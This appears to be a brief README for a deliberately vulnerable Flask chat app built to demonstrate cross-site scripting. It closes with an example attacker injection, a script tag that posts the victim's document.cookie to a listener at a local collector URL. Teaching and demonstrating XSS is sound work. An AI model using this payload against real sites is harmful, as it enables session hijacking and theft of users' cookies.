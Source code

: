 Chat WebApp with Flask

Building an vulnerable chat web app to demostrate XSS attacks.


Attacker's injection: <script>$.ajax({ url : 'https://127.0.0.1:5001/listen', type : 'POST', data : { 'cookie' : document.cookie }, success : function(response) {}, error : function(error) {} })</script>